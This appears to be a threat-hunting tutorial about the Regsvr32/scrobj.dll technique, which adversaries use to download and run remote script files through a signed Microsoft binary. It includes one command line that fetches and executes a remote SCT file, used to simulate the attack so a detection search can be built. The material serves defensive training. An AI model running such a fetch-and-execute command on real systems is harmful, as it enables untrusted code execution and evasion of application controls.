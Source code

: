 ## Understand the Technique

We need to get familiar with the components involved and what is being accomplished
when this technique is used. [Regsvr32](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490985)
and [Script Component](https://docs.microsoft.com/en-us/previous-versions/iis/6.0-sdk/ms524594)
documentation are excellent places to start.  

These resources explain that `regsvr32.exe` is a command line tool used to register
DLL files as command components.  This technique uses `regsvr32.exe` to register
the script component run-time (`scrobj.dll`) to execute arbitrary script files.  
The `/i` switch allows running scripts located on remote servers.

There are many reports and blogs like [this one](https://medium.com/@jam3s/playing-with-the-regsvr32-applocker-bypass-bd500b35ca29)
that explain the different ways the technique can be used by an adversary.  In
this case we have a technique that allows a user with normal privileges to
download and execute a script hosted on a remote server.

In addition, it uses a signed Microsoft binary, is proxy-aware, is SSL-capable,
can be used with any file extension, and is capable of leaving very little
evidence for use by tools and responders.  

## Simulate the Technique

Now let's simulate the technique on our own workstation so we can build and tune
a search that will reliably detect it.  Here we use a function from the [SIMmodule]()
 module:

![](images/Threat%20Hunting%20101/image009.png)<br><br>

The `New-SimRegsvr32` function runs the following command using PowerShell to
execute benign SCT file `payloadV.sct` using `regsvr32.exe`:

```powershell
cmd /c regsvr32 /s /u /n /i:https://s3.amazonaws.com/exercise-pcap-download-link/payloadV.sct scrobj.dll
```
<br>

So `regsvr32.exe` was just used to run an untrusted script file hosted out on
the Internet.  How do we detect this?
